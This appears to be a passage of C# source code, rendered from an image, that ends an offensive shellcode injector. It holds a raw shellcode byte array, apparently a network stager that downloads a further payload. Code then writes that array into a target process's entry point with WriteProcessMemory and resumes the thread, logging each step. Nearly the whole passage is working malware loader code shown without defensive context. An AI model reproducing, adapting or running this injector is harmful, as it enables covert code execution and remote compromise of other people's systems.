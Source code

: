 ```csharp
                                            0x73,0x49,0x30,0x33,0x46,0x48,0x64,0x32,0x64,0x2d,0x45,0x53,
                                            0x57,0x5f,0x4d,0x49,0x30,0x32,0x71,0x63,0x41,0x48,0x77,0x74,
                                            0x74,0x72,0x5f,0x5a,0x31,0x67,0x35,0x52,0x58,0x64,0x68,0x68,
                                            0x42,0x46,0x31,0x4e,0x42,0x34,0x54,0x00,0x48,0x89,0xc1,0x53,
                                            0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x00,0x32,0xa8,
                                            0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,
                                            0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,
                                            0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,
                                            0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,
                                            0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,
                                            0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,
                                            0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,
                                            0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,
                                            0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0xff,0xcf,0x74,0x02,0xeb,
                                            0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,0x59,0x6a,0x40,0x5a,0x49,
                                            0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,0x00,0x00,
                                            0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,
                                            0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,
                                            0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x49,
                                            0xba,0x12,0x96,0x89,0xe2,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
                                            0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,
                                            0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0xbb,
                                            0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            Console.WriteLine("[5] Wrote shellcode to Entry Point");

            // 6 -- Resume the target process

            ResumeThread(pi.hThread);

            Console.WriteLine("[6] Resumed process thread");
        }
    }
}
```
